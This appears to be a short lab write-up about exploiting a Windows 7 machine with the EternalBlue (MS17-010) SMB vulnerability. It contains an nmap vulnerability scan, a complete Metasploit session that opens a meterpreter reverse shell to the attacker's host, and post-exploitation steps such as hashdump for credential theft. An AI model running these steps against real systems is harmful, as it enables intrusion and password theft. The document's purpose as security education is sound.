 # Attacking with Metasploit

Before launching an attack with metasploit I first needed to check if my Windows 7 machine was vulnerable by using ```` nmap -p 445 --script smb-vuln-ms17-010 192.168.10.12````

By using this command I can check if the machine is vulnerable. In our case here, it came back as vulnerable, which is one of the millions of reasons why no one should ever use an outdated OS like Windows 7.

I opened up Metasploit using the command ````msfconsole```` and used the following commands:

````
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.10.12
RHOSTS => 192.168.10.12
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.10.35
LHOST => 192.168.10.35
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
````

Just like that I had full access to a Windows 7 System. So how does this vulnerability work?

## What is MS17-010?

Found in 2017, MS17-010 is a RCE (Remote Code Execution) vulnerability that lies within SMBv1. An attacker sends a specially crafted message, in this case we used the exploit ms17_010_eternalblue to create a reverse shell on the windows 7 system, effectively giving us full access to the system. No wonder why this vulnerbility is rated 9.8 on the CVSS scale! Here are a few cool, but simple commands I ran while having full access:

hashdump: Dumps all the hashes of credentials which than can lead to password leaks

sysinfo: Gives basic info about the system

screenshot: Takes a screenshot of what the user sees on the GUI 

![Screenshot 2025-02-19 213344](https://github.com/user-attachments/assets/e850d934-0b09-4b94-99e3-b530a17713fb)



From this point on, an attacker could steal credentials, maintain persistence, escalate privelages (although we are already running as an admin), run a bitcoin miner, basically do whatever they want.
